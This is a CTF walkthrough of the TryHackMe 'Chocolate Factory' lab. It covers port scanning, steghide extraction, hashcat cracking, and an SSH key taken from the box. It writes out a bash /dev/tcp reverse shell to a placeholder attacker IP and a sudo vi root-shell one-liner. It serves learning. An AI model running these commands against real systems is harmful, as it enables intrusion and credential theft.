# 📝 Writeup – Chocolate Factory (TryHackMe)

---

## TL;DR
Found lots of noisy ports. Real services: FTP , HTTP, and a weird local-download binary at `/key_rev_key`. Pulled a hidden file from an image via `steghide`, cracked a SHA512crypt hash to get `charlie`'s password, used that to get a reverse shell as `www-data`, grabbed `charlie`'s SSH key, SSH'd in, and finally used `sudo vi -c ':!/bin/sh' /dev/null` to pop root. Root flag retrieved by running `root.py` locally with the found key.

---

## ENUMERATION
Start standard:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Ports found: `21,22,80,100-125` (lots of fake services). Do a focused scan:

```bash
nmap -p21,22,80,100-125 -sC -sV -vv -oN scan.nmap <IP>
```

Screenshots:



Note: Port `113`'s service hinted a key at `http://localhost/key_rev_key` — if the webserver binds 0.0.0.0 you can fetch it via `http://<IP>/key_rev_key`. Keep that in mind.

---

## FTP (Port 21) — find a suspicious image

Anonymous FTP was allowed. Connect and pull `gum_room.jpg`:

```bash
ftp <IP>
# login as anonymous
get gum_room.jpg
```

Open it with `file`/`exiftool` — looks normal. But I suspected hidden data → try `steghide`:

```bash
steghide info gum_room.jpg
steghide extract -sf gum_room.jpg
# If it asks for a passphrase, try empty (some challenges do this)
```

Screenshots:



Extraction gave `b64.txt`. Decode it:

```bash
cat b64.txt | base64 -d 
```

Decoded contents looked like a `/etc/shadow`-style hash for user `charlie` (format: `$6$salt$hash` → SHA512crypt).

---

## Crack the hash → get `charlie`'s password

Use `hashcat` with rockyou (or similar):

```bash
# example: -m 1800 is for sha512crypt
hashcat -a 0 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```

Screenshot:


We cracked `charlie`'s password. Time to hit the web app.

---

## Web (Port 80) — login → command execution

Use credentials `charlie:<password>` on the site. Login success → land on `/home.php` which allows executing shell commands (or a command field that leads to a shell).

Screenshot:   


Get a reverse shell listener and spawn a shell from the web app (example):

```bash
# attacker
nc -nvlp 4444

# on target (via web command)
bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"
```

Now we have a `www-data` shell.

---

## Check `/key_rev_key` and downloaded binary

Visiting `http://<IP>/key_rev_key` downloaded a binary. I ran `strings` to quickly see readable data:

```bash
strings key_rev_key
```

Screenshot:


The binary contained some key or text that later helped (used to run root.py). Save it.

---

## Privilege escalation — www-data → charlie

Inside `www-data` shell, I found `charlie`'s SSH private key in `/home/charlie` (or similar). Save it locally and set permissions:

```bash
# copy the key onto your attacker machine (or echo it into a file)
# locally:
chmod 600 id_rsa
ssh -i id_rsa charlie@<IP>
```

Screenshot:


SSH in as `charlie`.

---

## charlie → root

Check sudo:

```bash
sudo -l
```

We saw `charlie` can run `/usr/bin/vi` as root without password. `vi`/`vim` is a classic GTFO/bin for root shells. Use the one-liner:

```bash
sudo vi -c ':!/bin/sh' /dev/null
```

This spawns a root shell.

Screenshot:



---

## Root flag

To fetch the root flag, the box had `root.py`. I copied the contents and executed it locally using the key I earlier obtained from `key_rev_key`. The flag printed.

Screenshot:


---

## Notes, corrections & tips

* `steghide extract` can succeed with empty passphrase — try blank if you’re stuck.
* Always `chmod 600` on private keys before SSH’ing.
* `strings` is a speedrun tool — good for quick binary hints; for deeper analysis use `r2`/`ghidra`/`gdb`.
* `sudo vi -c ':!/bin/sh' /dev/null` works because `vi` runs shell commands with elevated privileges; abuse carefully.
* If the web server is bound to `127.0.0.1` only, you might need SSRF or a port-forward from the host — but in this box it was accessible via the host IP.

---

## References / further reading

* `steghide` docs / manpage
* hashcat wiki (hash modes)
* GTFOBins — `vi` tricks: [https://gtfobins.github.io/gtfobins/vi/](https://gtfobins.github.io/gtfobins/vi/)

---

## Ethics & disclaimer

This walkthrough is for lab/learning only. Don’t run these techniques on systems you don’t own or have permission to test. Be chill and responsible.

---
